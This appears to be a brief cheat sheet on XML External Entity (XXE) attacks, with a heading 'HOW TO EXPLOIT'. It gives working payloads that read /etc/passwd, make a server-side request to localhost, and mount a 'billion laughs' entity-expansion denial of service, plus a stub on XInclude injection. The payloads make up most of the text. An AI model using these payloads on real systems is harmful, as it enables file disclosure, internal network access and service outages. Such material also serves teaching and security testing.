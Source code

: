 - `Retrieval file system`
- `SSRF`
- `DOS`

## HOW TO EXPLOIT

- `In band`
1. Retrieval file system 

Using general entity 

```nasm
<?xml version="1.0" stanalone="no" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >] >
<root>
<element>
		&xxe;
</element>
</root>
```

1. SSRF 

```nasm
<?xml version="1.0" stanalone="no" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://localhost:1337" >] >
<root>
<element>
		&xxe;
</element>
</root>
```

1. DOS 

```nasm
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

1. Using `Xinclude` 

XML injection ⇒ one of the part data ⇒ reflected in XML document 
